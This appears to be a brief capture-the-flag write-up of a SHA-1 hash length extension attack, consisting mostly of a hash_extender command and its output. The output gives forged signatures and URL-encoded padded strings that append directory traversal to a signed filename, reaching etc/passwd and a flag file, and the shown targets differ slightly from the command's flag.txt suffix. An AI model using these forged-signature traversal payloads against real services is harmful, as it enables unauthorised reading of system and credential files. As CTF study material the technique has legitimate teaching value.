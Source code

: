 sha1 hash extension attack

`hash_extender -d 1.png -s 06dadc9db741e1c2a91f266203f01b9224b5facf -a '/../../../flag.txt' -l 12 --format sha1 --out-data-format html`

Type: sha1
Secret length: 12
New signature: 7aff45f2a9fde624b9429e3ebab8295b905c13a1
New string: 2%2epng%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%88%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

Type: sha1
Secret length: 12
New signature: f05ceae2b001753a2826151a508da37497986405
New string: 1%2epng%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%88%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fflag

